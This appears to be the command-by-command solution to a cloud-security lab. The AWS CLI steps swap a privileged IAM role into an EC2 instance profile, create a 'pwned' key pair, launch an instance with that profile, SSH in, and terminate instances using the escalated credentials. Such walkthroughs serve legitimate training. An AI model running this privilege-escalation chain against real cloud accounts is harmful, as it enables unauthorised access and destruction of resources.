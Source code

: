 `aws configure --profile alec`

`aws --profile alec --region eu-central-1 ec2 describe-instances`

`aws --profile alec --region eu-central-1 iam list-instance-profiles`

`aws --profile alec --region eu-central-1 iam list-roles`

`aws --profile alec --region eu-central-1 iam remove-role-from-instance-profile --instance-profile-name ec2-instance-profile-ec2_profiles_<generatedID> --role-name ec2-meek-role-ec2_profiles_<generatedID>`

`aws --profile alec --region eu-central-1 iam add-role-to-instance-profile --instance-profile-name ec2-instance-profile-ec2_profiles_<generatedID> --role-name ec2-mighty-role-ec2_profiles_<generatedID>`

`aws --profile alec --region eu-central-1 ec2 create-key-pair --key-name pwned --query 'KeyMaterial' --output text > pwned.pem`

`chmod 400 pwned.pem`

`aws --profile alec --region eu-central-1 ec2 describe-subnets`

`aws --profile alec --region eu-central-1 ec2 describe-security-groups`

`aws --profile alec --region eu-central-1 ec2 run-instances --image-id ami-0a313d6098716f372 --instance-type t2.micro --iam-instance-profile Arn=<instanceProfileArn> --key-name pwned --subnet-id <subnetId> --security-group-ids <securityGroupId>`

`ssh -i pwned.pem ubuntu@<instancePublicDNSName>`

`sudo apt-get update`

`sudo apt-get install awscli`

`aws ec2 describe-instances --region us-east-1`

`aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1`
